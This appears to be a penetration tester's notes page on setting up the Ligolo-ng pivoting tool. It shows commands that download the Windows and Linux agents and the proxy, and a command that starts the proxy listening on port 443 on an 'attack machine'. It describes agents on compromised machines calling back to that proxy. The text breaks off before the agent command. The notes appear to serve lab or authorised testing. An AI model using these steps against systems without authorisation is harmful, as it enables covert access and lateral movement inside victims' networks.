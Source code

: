 //TODO: UPDATE ESPANSO TO USE MODERN LIGOLO WINDOWS AGENT, LINUX AGENT, AND LINUX SERVER

Ligolo is used for pivoting. We can install it with the below commands, and rename it to make the names more obvious

```bash
# Get windows agent, extract it, and rename it
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.2/ligolo-ng_agent_0.8.2_windows_amd64.zip && unzip ligolo-ng_agent_0.8.2_windows_amd64.zip && mv agent.exe ligolo-windows-agent.exe && rm *.zip && rm *.md && rm LICENSE

# Get the Linux Proxy Server, Extract it, and rename it
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.2/ligolo-ng_proxy_0.8.2_linux_amd64.tar.gz && tar -xvf ligolo-ng_proxy_0.8.2_linux_amd64.tar.gz && mv proxy ligolo-proxy-server && rm *.gz && rm *.md && rm LICENSE


# Get the Linux Agent, Extract it, and rename it
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.2/ligolo-ng_agent_0.8.2_linux_amd64.tar.gz && tar -xvf ligolo-ng_agent_0.8.2_linux_amd64.tar.gz && mv agent ligolo-linux-agent && rm *.gz && rm *.md && rm LICENSE

```

There's two parts: a proxy server running on our attack machine, and agents running on compromised machines. The agents will call back to the attacking machine's proxy server.

We can setup our proxy server like so, to add the ligolo interface, set it up, and then run the proxy server, which will listen on port 443 for connections.
```bash
sudo ip tuntap add user kali mode tun ligolo ; sudo ip link set ligolo up && sudo ./proxy -selfcert -laddr 0.0.0.0:443


```

We can run the agent (after uploading it) with